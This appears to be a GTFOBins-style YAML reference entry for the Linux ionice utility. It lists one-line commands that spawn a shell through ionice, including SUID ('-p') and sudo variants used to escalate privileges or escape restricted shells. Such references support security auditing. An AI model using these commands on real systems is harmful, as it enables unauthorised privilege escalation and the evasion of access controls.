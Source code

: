```yaml
---
name: ionice
functions:
  shell:
    - code: ionice /bin/sh
  suid:
    - code: ./ionice /bin/sh -p
  sudo:
    - code: sudo ionice /bin/sh
---
```


